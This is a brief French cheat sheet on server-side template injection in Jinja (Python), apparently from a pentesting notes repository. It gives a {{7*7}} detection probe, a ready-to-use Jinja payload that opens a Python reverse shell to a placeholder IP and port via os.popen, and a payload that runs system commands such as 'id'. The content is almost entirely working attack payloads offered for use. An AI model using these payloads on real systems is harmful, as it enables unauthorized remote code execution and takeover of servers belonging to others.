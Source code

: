 # SSTI

### Jinja (python)

* Tester si la vulnérabilité est présente :

```
{{7*7}}
```

* Exploiter la vulnérabilité :

```python
# Reverse Shell
{{ cycler.__init__.__globals__.os.popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'').read()}}

# Exécuter une commande système
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

**Tips :** essayer `python` et `python3`.

